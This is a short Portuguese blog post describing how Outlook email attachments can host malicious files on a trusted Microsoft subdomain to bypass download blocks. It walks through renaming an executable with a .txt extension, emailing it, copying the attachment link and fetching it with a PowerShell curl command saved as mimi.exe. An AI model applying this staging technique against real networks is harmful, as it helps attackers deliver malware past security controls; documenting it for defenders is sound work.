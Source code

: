 ```yaml
---
layout: single
classes: wide
title:  "Utilizando o Outlook para armazenar arquivos maliciosos"
---
```

## Descrição
Conseguimos através do anexo de e-mail do Outlook armazenar arquivos maliciosos nos permitindo realizar o upload/download de arquivos maliciosos através de um “local confiável” por se tratar de um subdomínio do Outlook.

## Passos para reproduzir
Primeiramente devemos modificar o arquivo malicioso adicionando uma extensão de texto (.txt)
No Linux podemos incluir essa extensão de várias formas, uma delas é utilizar o comando **cp** para cria uma cópia do arquivo adicionando a extensão de texto, nesse caso ficaria algo como: **arquivo.exe.txt**

![bh-Look](../assets/img/2021-12-06/IMG01.png)

Após prepararmos o arquivo malicioso podemos enviar um e-mail anexando nosso arquivo modificado para qualquer destino (*nesse exemplo estamos encaminhando para um endereço de e-mail temporário*) pois o que nos interessa é o link direto do arquivo.

![bh-Look](../assets/img/2021-12-06/IMG03.png)

![bh-Look](../assets/img/2021-12-06/IMG02.png)

![bh-Look](../assets/img/2021-12-06/IMG04.png)

Depois de enviarmos vamos em **Itens Enviados** e baixar o arquivo em anexo para obter o link direto do arquivo, para isso vamos em **Downloads do Navegador > Botão Direito >  Copiar link.**

![bh-Look](../assets/img/2021-12-06/IMG07.png)

![bh-Look](../assets/img/2021-12-06/IMG08.png)

Com o "link direto" podemos realizar o download através do PowerShell do Windows utilizando o comando **Curl** e a opção **-o** de output para criar a saida do arquivo com a extensão original (*um executável*) então o comando seria: `curl "link_do_arquivo.com.br" -o mimi.exe`

![bh-Look](../assets/img/2021-12-06/IMG09.png)

## Prova de Conceito (PoC)

![bh-Look](../assets/img/2021-12-06/IMG10.png)


## Observações
* Não recomendamos realizar o upload de arquivos executáveis (.exe) pois o outlook detecta como arquivo malicioso e impede que o download seja realizado.
* Arquivos muito grandes também são bloqueados por conta da restrição de tamanho por parte do anexo.
* Um outro ponto interessante é que o arquivo após enviado tem um prazo de validade que vária entre 10 à 15 minutos

## Cénario de Ataque
Esse tipo de técnica é útil em ambientes internos (externos também) onde geralmente existem bloqueios em determinadas origens, e por se tratar de um “domínio confiável” podemos realizar o download de forma segura.
